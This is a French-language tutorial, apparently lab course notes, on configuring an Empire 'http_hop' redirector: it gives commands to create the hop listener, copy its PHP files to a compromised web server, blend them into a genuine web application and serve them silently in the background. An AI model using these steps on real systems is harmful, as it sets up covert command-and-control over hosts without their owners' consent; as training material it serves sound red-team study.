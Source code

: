 #HopListerners
Une fois créé, cela créera un ensemble de .php fichiers qui doivent être téléchargés sur le jumpserver (notre serveur Web compromis) et servis par un serveur HTTP.

Nous avons besoin de:

- **Un RedirectListener** : il s'agit d'un écouteur régulier vers lequel transférer tous les agents reçus. Assurez-vous cependant que cela corresponde au nom d'un listener déjà actif !

- **Un hôte** : l'adresse IP du serveur Web compromis

- **Un port** : c'est le port qui sera utilisé pour le serveur web hébergeant nos fichiers hop. Choisissez un port au hasard ici (au-dessus de 15 000)

```sh
uselistener http_hop
set RedirectListener http
set Host COMPROMISED_IP
set Port 9001
execute
```

Cela aura écrit une variété de fichiers dans un nouveau répertoire `/tmp/http_hop` de notre machine attaquante.

- Nous devrons répliquer cette structure de fichiers sur notre serveur de saut (le serveur Web compromis) lorsque nous servirons les fichiers. 

- Notez que ces fichiers ( `news.php`, `admin/get.php` et `login/process.php`) ne sembleraient pas déplacés parmi les fichiers d'application Web authentiques et pourraient en effet être facilement fusionnés discrètement dans une application Web existante.

Commençons par générer un stager qui vas pointer son listener vers `http_hop`.

Quelle que soit la méthode choisie, enregistrez la commande fournie quelque part et ne l'exécutez pas encore. Nous en aurons besoin une fois que nous aurons configuré les fichiers hop sur le serveur de saut.

> Installons ce serveur de saut !
- Tout d'abord, dans le répertoire /tmp du serveur Web compromis `mkdir /tmp/hop-folder`
- Transférez le contenu du `/tmp/http_ho` du prépertoire KALI vers ce répertoire `/tmp/hop-folder` sur le serveur cible. 
- Un bon moyen de le faire est de compresser le contenu du répertoire

```sh
cd /tmp/http_hop && zip -r hop.zip *

# puis de transférer le fichier zip  et le decompresr
unzip hop.zip
```

 Nous devons maintenant servir les fichiers sur le port que nous avons choisi lors de la génération de l'écouteur `http_hop`

```sh
php -S 0.0.0.0:{PORT} &>/dev/null &
```

